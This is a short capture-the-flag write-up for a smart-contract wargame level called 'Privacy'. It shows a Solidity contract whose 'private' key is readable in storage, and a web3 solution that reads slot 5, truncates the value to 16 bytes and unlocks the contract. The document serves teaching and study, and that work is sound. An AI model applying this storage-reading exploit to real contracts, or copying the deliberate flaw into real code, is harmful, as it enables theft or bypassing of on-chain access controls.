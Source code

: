 # Level 12 - Privacy

### Objective

The objective of this level is as follows:

1. Unlock the contract

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }

  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

### Solution

In this level, we take advantage of the fact that `unlock` uses index 2 of `data` - a `bytes32` array. After some calculation, we arrive at the slot number of `key`:

```
key = await web3.eth.getStorageAt(contract.address, 5)

```

In this form, `key` is `byte32`; however, `require(_key == bytes16(data[2]))` only returns the first 16 bytes. Thus, we must convert `key` to `byte16` with prefix `0x`:

```
key = key.slice(0, 34)

```

Next, we can `unlock` the contract with the `key`:

```
await contract.unlock(key)

```

Finally, we can verify that the contract is unlocked:

```
await contract.locked()

```

Done!
